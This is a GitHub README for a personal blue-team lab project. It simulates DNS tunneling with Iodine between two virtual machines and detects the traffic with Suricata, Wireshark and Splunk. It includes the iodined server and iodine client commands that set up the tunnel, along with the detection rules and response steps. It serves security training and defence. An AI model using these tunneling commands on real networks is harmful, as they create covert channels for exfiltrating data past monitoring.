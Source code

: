 

# DNS Tunneling Detection via Iodine

**Author:** Esosa Okonedo  
**Date Completed:** May 22nd, 2025

---

## Overview

This project simulates a DNS Tunneling attack using the **Iodine** tool in a controlled virtual lab environment. The goal was to detect and analyze the malicious activity using industry-standard tools: **Suricata (IDS)**, **Wireshark (packet analysis)**, and **Splunk (SIEM)**.

While no real-world data exfiltration occurred, this project showcases how DNS can be abused for covert communication and how security teams can effectively detect and respond to such threats.

---

## Objectives

- Simulate DNS tunneling using Iodine between two virtual machines.
- Detect suspicious DNS traffic with Suricata IDS.
- Analyze network packets using Wireshark.
- Correlate and visualize IDS alerts in Splunk.
- Practice incident response and containment steps.
- Document root cause, lessons learned, and recommendations.

---

## Lab Environment

| Component     | Details                          |
|---------------|----------------------------------|
| Client VM     | Ubuntu (192.168.1.31)            |
| Server VM     | Kali Linux (192.168.1.59)        |
| DNS Tunneling Tool | Iodine                     |
| Network       | 192.168.1.0/24 (Internal Lab)    |
| IDS           | Suricata                         |
| Packet Capture| Wireshark                        |
| SIEM          | Splunk                           |

---

## Tools Used

- **Iodine** – DNS tunneling tool for simulating exfiltration.
- **Suricata** – IDS used to trigger alerts on suspicious DNS behavior.
- **Wireshark** – For packet inspection and identifying malformed DNS queries.
- **Splunk** – For ingesting Suricata logs and correlating alerts.
- **Iptables** – Used to block traffic as part of the containment response.

---

## Key Suricata Rules Used

| SID       | Purpose                                     |
|-----------|---------------------------------------------|
| 2029994   | Detect NULL DNS record queries              |
| 2029995   | Detect long DNS queries (Iodine signature)  |
| 1000003   | Custom: Detect DNS NULL Record              |
| 1000005   | Custom: Detect high-volume DNS tunneling    |

---

## Simulation Steps

### Iodine Server Setup (Kali VM):
```bash
sudo apt update && sudo apt install iodine
sudo iodined -f -c -P secret123 10.0.0.1 tunnel.local
```

### Iodine Client Setup (Ubuntu VM):
```bash
sudo apt update && sudo apt install iodine
sudo iodine -f -P secret123 192.168.1.59 tunnel.local
```

### Generated Traffic:
```bash
ping 10.0.0.1
sudo ssh kali@10.0.0.1
```

---

## Detection & Analysis
- Suricata triggered alerts on suspicious DNS traffic.
- Wireshark captured malformed DNS packets with type 10 (NULL).
- Splunk confirmed high-volume DNS queries from the client VM with the relevant SIDs.

---
## Response actions
- Containment: Used iptables to block outbound DNS from the client.
- Isolation: Disconnected the client VM from the network using VirtualBox’s "Not Attached" setting.
- Eradication & Recovery: Stopped the Iodine process on both VMs.
- Recovery: Verified normal traffic resumed with no DNS tunneling detected.
- Reporting: The incident was reported to the SOC lead (simulated).

---
## Recommendations
- Implement DNS filtering with tools like pfSense.
- Conduct regular training on DNS tunneling and detection.
- Monitor DNS query patterns and alert on anomalies (e.g., long subdomains, NULL records).

---
## Acknowledgment
This project was done as part of my personal SOC training and blue team practice, inspired by real-world DNS tunneling techniques.

---
## FULL REPORT
- For a detailed breakdown of the DNS tunneling simulation, detection steps, and analysis, [Download complete PDF Report](https://github.com/EsosaSEC/DNS-Tunneling-detection-iodine/blob/main/Incident%20Report-%20Detection%20of%20DNS%20Tunneling%20Attack.pdf)
- For screenshots and network topology diagram, [Check Here](https://github.com/EsosaSEC/DNS-Tunneling-detection-iodine/tree/main/Images)
